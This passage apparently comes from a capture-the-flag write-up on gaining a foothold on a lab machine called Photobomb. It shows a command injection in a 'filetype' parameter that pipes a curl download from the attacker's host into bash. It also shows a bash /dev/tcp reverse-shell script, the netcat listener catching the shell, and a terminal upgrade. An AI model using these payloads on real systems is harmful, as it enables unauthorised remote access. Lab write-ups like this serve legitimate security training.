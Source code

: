 ![image-20230204154157976](https://0xdfimages.gitlab.io/img/image-20230204154157976.png)

However, on `filetype`, it takes over 6 seconds before returning 500:

![image-20230204154118135](https://0xdfimages.gitlab.io/img/image-20230204154118135.png)

#### Shell

To convert this into a shell, I’ll have it run `curl` to my webserver and get
a `bash` script that will run a reverse shell:

    
    
    filetype=png;curl+10.10.14.6/shell.sh|bash
    

I’ll host a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as `shell.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

I’ll run a Python webserver to host it.

When I send that request (using Burp Repeater), there’s a connection at my
webserver:

    
    
    10.10.11.182 - - [04/Feb/2023 20:44:39] "GET /shell.sh HTTP/1.1" 200 -
    

And then a connection at my listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.182 42718
    bash: cannot set terminal process group (735): Inappropriate ioctl for device
    bash: no job control in this shell
    wizard@photobomb:~/photobomb$ 
    

I’ll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) with
the `script` / `stty` trick:

    
    
    wizard@photobomb:~/photobomb$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    wizard@photobomb:~/photobomb$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    wizard@photobomb:~/photobomb$
    